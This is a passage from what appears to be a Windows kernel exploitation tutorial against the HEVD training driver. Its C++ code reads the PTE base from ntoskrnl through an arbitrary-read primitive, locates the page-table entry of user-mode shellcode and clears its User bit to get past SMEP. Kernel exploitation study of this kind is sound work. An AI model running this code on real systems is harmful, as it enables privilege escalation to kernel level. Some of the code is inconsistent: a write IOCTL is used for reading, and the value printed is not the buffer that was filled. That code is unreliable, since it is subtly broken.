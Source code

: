 ![](/assets/images/bof_gs/migetpteaddress_ida.jpg)

Rewriting the logic in a C function looks like this:
```cpp
uintptr_t getPteAddress(PVOID addr, PVOID base)
{
	uintptr_t address = addr;
	address = address >> 9;
	address &= 0x7FFFFFFFF8;
	address += (intptr_t)base;
	return address;
}
```

We need the PteBase address so we'll use our read primitive to parse the address from the function's code.  
Because it's an unexported function, we can either use an hardcoded pre-determined offset or find it dynamically using a pattern-searching method. I'll use an hardcoded offset this time:

```cpp
// Add 0x13 to read only the PTE base
uintptr_t readAddress = (uintptr_t)ntoskrnlBase + MiGetPteAddressOffset + 0x13;
arbReadBuf.readAddress = readAddress;
arbReadBuf.outBuf = &readBuffer;

printf("[+] Getting PteBase value\n");
bResult = DeviceIoControl(hDevice, HEVD_IOCTL_ARBITRARY_WRITE, &arbReadBuf, sizeof(arbReadBuf), NULL, 0, &junk, (LPOVERLAPPED)NULL);

printf("[*] Got PteBase: 0x%llx\n", outBuf);
ULONGLONG pteBase = outBuf;
uintptr_t shellcodePte = getPteAddress(shellcode, pteBase);
```

Now that we got the PTE address of our shellcode we need to read its data:
```cpp
arbReadBuf.readAddress = shellcodePte;
arbReadBuf.outBuf = &readBuffer;
bResult = DeviceIoControl(hDevice, HEVD_IOCTL_ARBITRARY_WRITE, &arbReadBuf, sizeof(arbReadBuf), NULL, 0, &junk, (LPOVERLAPPED)NULL);

// Reset the User bit to zero - now it's kernel
ULONGLONG wantedPteValue = readBuffer & ~0x4;
```
